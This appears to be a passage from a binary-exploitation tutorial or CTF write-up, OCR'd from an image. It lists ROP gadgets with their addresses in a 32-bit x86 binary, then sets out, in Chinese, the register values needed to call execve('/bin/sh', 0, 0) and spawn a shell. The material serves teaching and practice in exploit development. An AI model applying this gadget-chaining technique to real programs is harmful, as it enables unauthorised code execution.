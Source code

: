 0x08048556: or byte [ebx+0x44890C45], cl ; and al, 0x04 ; mov eax, dword [ebp+0x08] ; mov dword [esp], eax ; call dword [ebx+esi*4-0x000000E8] ;  (1 found)
0x0804844d: or byte [ecx], al ; add esp, 0x04 ; pop ebx ; pop ebp ; ret  ;  (1 found)
0x08048443: or byte [ecx], bh ; fdiv dword [edx-0x18] ; mov byte [0x08049724], 0x00000001 ; add esp, 0x04 ; pop ebx ; pop ebp ; ret  ;  (1 found)
0x08048595: or byte [esi-0x70], ah ; sub ebx, 0x04 ; call eax ;  (1 found)
0x08048477: or edi, eax ; add al, 0x24 ; adc al, 0x96 ; add al, 0x08 ; call eax ;  (1 found)
0x0804835c: pop eax ; pop ebx ; leave  ; ret  ;  (1 found)
0x08048453: pop ebp ; ret  ;  (5 found)
0x0804835d: pop ebx ; leave  ; ret  ;  (2 found)
0x08048452: pop ebx ; pop ebp ; ret  ;  (2 found)
0x08048575: pop ebx ; pop esi ; pop edi ; pop ebp ; ret  ;  (1 found)
0x080485c4: pop ecx ; pop ebx ; leave  ; ret  ;  (1 found)
0x08048577: pop edi ; pop ebp ; ret  ;  (1 found)
0x08048576: pop esi ; pop edi ; pop ebp ; ret  ;  (1 found)
0x08048429: push ds ; lea esi, dword [esi+0x00000000] ; add eax, 0x01 ; mov dword [0x08049728], eax ; call dword [0x0804960C+eax*4] ;  (1 found)
0x08048360: push dword [0x080496F0] ; jmp dword [0x080496F4] ;  (1 found)
0x080485a1: push dword [ebp-0x0C] ; add esp, 0x04 ; pop ebx ; pop ebp ; ret  ;  (1 found)
0x0804858e: push dword [ebx+edx-0x45] ; add al, 0x96 ; add al, 0x08 ; nop  ; sub ebx, 0x04 ; call eax ;  (1 found)
0x0804854b: push dword [esp+0x31] ; test byte [ebx+0x44891045], 0x00000024 ; or byte [ebx+0x44890C45], cl ; and al, 0x04 ; mov eax, dword [ebp+0x08] ; mov dword [esp], eax ; call dword [ebx+esi*4-0x000000E8] ;  (1 found)
0x08048510: push ebp ; mov ebp, esp ; pop ebp ; ret  ;  (1 found)
0x0804833e: ret  ;  (13 found)
0x08048480: ror cl, 1  ; ret  ;  (1 found)
0x08048475: sal byte [ecx+ecx-0x39], 0x00000004 ; and al, 0x14 ; xchg eax, esi ; add al, 0x08 ; call eax ;  (1 found)
0x0804846c: sal byte [edx+edx-0x48], 0x00000000 ; add byte [eax], al ; add byte [ebp-0x38F68B40], al ; add al, 0x24 ; adc al, 0x96 ; add al, 0x08 ; call eax ;  (1 found)
0x0804857b: sbb al, 0x24 ; ret  ;  (1 found)
0x08048574: sbb al, 0x5B ; pop esi ; pop edi ; pop ebp ; ret  ;  (1 found)
0x08048598: sub ebx, 0x04 ; call eax ;  (1 found)
0x0804854f: test byte [ebx+0x44891045], 0x00000024 ; or byte [ebx+0x44890C45], cl ; and al, 0x04 ; mov eax, dword [ebp+0x08] ; mov dword [esp], eax ; call dword [ebx+esi*4-0x000000E8] ;  (1 found)
0x0804844b: xchg eax, edi ; add al, 0x08 ; add dword [ebx+0x5D5B04C4], eax ; ret  ;  (1 found)
0x08048435: xchg eax, edi ; add al, 0x08 ; call dword [0x0804960C+eax*4] ;  (1 found)
0x08048369: xchg eax, esi ; add al, 0x08 ; add byte [eax], al ; add byte [eax], al ; jmp dword [0x080496F8] ;  (1 found)
0x0804847c: xchg eax, esi ; add al, 0x08 ; call eax ;  (1 found)
0x08048362: xchg eax, esi ; add al, 0x08 ; jmp dword [0x080496F4] ;  (2 found)
0x08048593: xchg eax, esi ; add al, 0x08 ; nop  ; sub ebx, 0x04 ; call eax ;  (1 found)
0x08048361: xor eax, 0x080496F0 ; jmp dword [0x080496F4] ;  (1 found)
0x0804854e: xor esi, esi ; mov eax, dword [ebp+0x10] ; mov dword [esp+0x08], eax ; mov eax, dword [ebp+0x0C] ; mov dword [esp+0x04], eax ; mov eax, dword [ebp+0x08] ; mov dword [esp], eax ; call dword [ebx+esi*4-0x000000E8] ;  (1 found)

我们的目标是执行
execve(”/bin/sh”, 0, 0) 
 
需要
eax = 0xb // execve
ebx = address of “/bin/sh”
ecx = 0 // argv
edx = 0 // env
